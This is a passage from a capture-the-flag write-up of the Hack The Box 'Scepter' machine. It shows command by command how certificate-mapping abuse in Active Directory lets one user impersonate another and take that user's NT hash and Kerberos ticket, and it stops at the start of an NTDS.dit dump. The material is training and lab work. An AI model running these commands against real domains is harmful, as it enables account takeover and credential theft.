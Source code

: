 But this time we set a `dummy email address` on `d.baker`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ bloodyAD --host dc01.scepter.htb -d scepter.htb -u a.carter -p 'newpassword' set object d.baker mail -v foobar@scepter.htb
[+] d.baker's mail has been updated
```

After that we mapped this `dummy email address` to `p.adams` within the `session` of `h.brown`.

```powershell
*Evil-WinRM* PS C:\Users\h.brown\Documents> Set-ADUser -Identity "p.adams" -Add @{'altSecurityIdentities'='X509:<RFC822>foobar@scepter.htb'}
```

Then we enrolled the `StaffAccessCertificate` using `d.baker` which resulted in a new `d.baker.pfx` file.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ certipy-ad req -ca scepter-DC01-CA -username d.baker@scepter.htb -hashes 18b5fb0d99e7a475316213c15b6f22ce -template StaffAccessCertificate
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 17
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'd.baker.pfx'
```

With the new `d.baker.pfx` we authenticated as `p.adams` and received his `hash` and `.ccache` file.

```shell
$ certipy-ad auth -pfx 'd.baker.pfx' -domain 'scepter.htb' -username 'p.adams'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[!] Could not find identification in the provided certificate
[*] Using principal: p.adams@scepter.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'p.adams.ccache'
[*] Trying to retrieve NT hash for 'p.adams'
[*] Got hash for 'p.adams@scepter.htb': aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0
```

## Privilege Escalation to System

After we `exported` the `.cache` file we dumped the `NTDS.dit` using `NetExec`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Scepter/files]
└─$ export KRB5CCNAME=p.adams.ccache
```
